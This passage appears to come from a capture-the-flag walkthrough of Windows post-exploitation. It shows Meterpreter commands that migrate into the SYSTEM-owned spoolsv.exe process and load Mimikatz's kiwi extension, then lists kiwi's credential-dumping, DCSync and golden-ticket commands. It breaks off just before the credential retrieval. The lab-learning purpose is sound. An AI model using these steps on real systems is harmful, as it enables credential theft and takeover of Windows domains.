 Use `migrate -N <process name>` to migrate to a process that has the same arc and permissions as the `lsass.exe` process. 
```bash
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 2712 to 1368...
[*] Migration completed successfully.
meterpreter > 
meterpreter > getpid
Current pid: 1368
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
> Note: I get disconnected from the target machine, that's why the pid of 2712 is different from earlier. 

Now we are successfully migrated to the spooler process.
```bash
1368  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
```

Start the looting process using Mimikatz tool. (Kiwi is the updated version of Mimikatz)
```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > help kiwi

Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitrary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)


meterpreter > 
```
Loading kiwi into our meterpreter session will expand our help menu. To retrieve all the credentials, use this command

